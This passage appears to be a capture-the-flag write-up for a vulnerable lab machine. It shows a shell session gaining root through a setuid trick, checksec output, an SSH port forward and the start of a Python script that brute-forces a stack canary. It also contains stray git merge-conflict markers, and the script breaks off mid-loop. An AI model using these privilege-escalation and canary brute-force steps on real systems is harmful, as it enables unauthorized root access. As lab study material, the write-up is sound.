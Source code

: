 ```console
<<<<<<< HEAD
bash-4.1$ cd /tmp/chroot
=======
>>>>>>> e9eb999dff67169c736bdebc81d3d526ee84abad
bash-4.1$ cd $(python -c "print 'a/'*100")

bash-4.1$ ls -al /tmp/chroot/bin/launcher 
-rwxrwxr-x. 1 avida avida 4864 Jul 23 11:17 /tmp/chroot/bin/launcher

bash-4.1$ /nginx/usr/share/nginx/html/sysadmin-tool --activate-service
bash-4.1$ ls -al /tmp/chroot/bin/launcher 
-rwsrwxrwx. 1 root root 4864 Jul 23 11:17 /tmp/chroot/bin/launcher

bash-4.1$ /tmp/chroot/bin/launcher
bash-4.1# id
uid=0(root) gid=0(root) groups=0(root),500(avida) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

```


## Exploit worp

### worp file

    bash-4.1$ cat /proc/sys/kernel/randomize_va_space 
    0

    bash-4.1$ ls -al /usr/local/bin/wopr
    -rwxr-xr-x. 1 root root 7878 Apr 28  2014 /usr/local/bin/wopr

    bash-4.1$ ./checksec.sh --file /usr/local/bin/wopr 
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /usr/local/bin/wopr

### port forward

```console
└─$ ssh -N -f -L 3333:127.0.0.1:3333 avida@192.168.56.8
```
### 
```python
import socket
import time
import struct

def p(x):
  return struct.pack('<L', x)


target = "127.0.0.1"
port = 3333
junk = "A"*30
canary = ""
for byte in xrange(4):
  for canary_byte in xrange(256):
    hex_byte = chr(canary_byte)

    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.settimeout(10)
    client.connect((target, port))
    # [+] hello, my name is sploitable
    reponse = client.recv(33)
    # print (reponse.decode())
```